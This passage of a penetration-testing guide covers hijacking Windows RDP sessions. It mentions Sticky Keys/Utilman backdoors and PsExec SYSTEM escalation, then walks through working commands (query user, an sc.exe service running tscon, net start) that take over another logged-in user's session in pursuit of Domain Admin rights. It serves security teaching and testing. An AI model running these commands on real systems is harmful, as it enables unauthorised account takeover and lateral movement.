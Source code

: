 Sticky-keys & Utilman
Combining this technique with stickykeys or utilman you will be able to access a administrative CMD and any RDP session anytime

You can search RDPs that have been backdoored with one of these techniques already with: https://github.com/linuz/Sticky-Keys-Slayer


### PsExec for escalating privileges: This method no longer works on Server 2019

PsExec is particularly effective for privilege escalation because it can create and run processes with SYSTEM privileges, even if executed from an Administrator account. Here’s how this process typically works:

- **Command Execution as SYSTEM**: When using PsExec with the `-s` flag (e.g., `psexec -s cmd.exe`), it launches a process that runs with SYSTEM privileges instead of the Administrator privileges of the account running it.
- **How It Works Internally**: PsExec does this by leveraging Windows services, which typically run as SYSTEM by default. PsExec creates a temporary service on the machine to launch a command or program with SYSTEM privileges, then removes the service after completion.
- **Escalation Path**: Once PsExec launches a command prompt or other executable with SYSTEM privileges, the user essentially has unrestricted access. This enables them to perform actions that would other


**Example of an exploitation: creating a service that will run as SYSTEM**

```cmd-session
query user
```

Results:

```
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM
```


```cmd-session
sc.exe create Nameofservice binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
```

**Explanation**: Create a Windows service that, by default, run as `Local System` and will execute any binary with `SYSTEM` privileges. We use [Microsoft sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) binary. First, we specify the service name (`Nameofservice`) and the `binpath`, which is the command we want to execute. Once we run the following command, a service named `Nameofservice` will be created.

Initiate the service:

```
net start Nameofservice
```

Once the service is started, a new terminal with the `lewen` user session will appear. With this new account, we can attempt to discover what kind of privileges it has on the network, and maybe we'll get lucky, and the user is a member of the Help Desk group with admin rights to many hosts or even a Domain Admin.
